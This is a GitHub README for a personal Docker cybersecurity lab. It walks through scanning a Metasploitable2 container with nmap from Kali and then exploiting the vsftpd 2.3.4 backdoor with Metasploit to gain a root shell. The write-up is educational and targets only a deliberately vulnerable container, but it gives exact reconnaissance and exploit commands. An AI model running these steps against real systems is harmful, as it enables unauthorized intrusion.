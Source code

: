# Metasploitable2 Docker Lab
## Overview
This repository documents a cybersecurity lab that demonstrates the process of **reconnaissance and exploitation**. The lab environment was created using **Docker** to set up a secure, isolated network with a **Kali Linux** container as the attacking machine and a **Metasploitable2** container as the vulnerable target.

The primary objective was to identify and exploit common, well-known vulnerabilities to gain a comman shell on the target system.
***
## Lab Environment Setup
The lab was built using **Docker** and **Docker Compose** on a Windows host machine. The `docker-compose.yml` file defines the two containers and a private network to allow them to communicate. 

**Prerequisites**
* **Docker Desktop**: Running on the host machine.
* **Git**: Installed on the host machine for cloning and version control.

**Setup Instructions**
1. **Clone the Repository**: Clone this repository to your local machine.
```
git clone https://github.com/MSearleProjects/cybersecurity-lab-1-metasploitable.git
cd cybersecurity-lab-1-metasploitable
```
2. **Launch the Containers**: Run the `docker-compose up` command from the root of this directory. This command reads the `docker-compose.yml` file and starts both containers.
```
docker-compose up -d
```
***
## Lab Walkthrough
**Reconnaissance with Nmap**
After launching the containers, the first step was to get a terminal inside the Kali container and perform a network scan to identify open ports and services on the target.
1. **Enter the Kali container**:
```
docker exec -it kali bash
```
2. **Find the target's IP**: From inside the Kali terminal, I used `ping` to find the IP address of the `metasploitable` container.
```
ping metasploitable
```
The IP address that comes back is `172.18.0.3`

3. **Run the Nmap scan**:
```
nmap -sV -sC 172.18.0.3
```
`-sV` means Service Version Detection and tells Nmap to attempt to determine the **service name and version number** of whats running on each port. `-sC` is a shortcut for `--script=default` and tells Nmap to run a set of default scripts against the target which include **vulnerability checks**, **enumeration** and **misconfiguration audits**.

**Findings**
The Nmap scan revealed several services with outdated and vulnerable versions.
* **FTP**: `vsftpd 2.3.4` running on port `21/tcp`.
* **SSH**: `OpenSSH 4.7p1` running on port `22/tcp`.
* **Samba**: `Samba smbd 3.0.20-Debian` running on ports `139/tcp` and `445/tcp`.
* **IRC**: `UnrealIRCd` running on port `6667/tcp`.

The `vsftpd 2.3.4` version was targeted due to a well-known backdoor vulnerability.
***
## Exploitation with Metasploit
The **Metasploit Framework** was used to exploit the `vsftpd` vulnerability and gain command shell on the target system.
1. **Launch** `msfconsole`:
```
msfconsole
```
2. **Search for the exploit**:
```
msf6 > search vsftpd
```
3. **Search and configure the exploit**: The `vsftpd_234_backdoor` module was chosen.
```
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 > set RHOSTS 172.18.0.3
msf6 > exploit
```
4. **Result**: The exploit successfully created a reverse shell, granting command-line access to the Metasploitable2 container with **root privileges**.
***
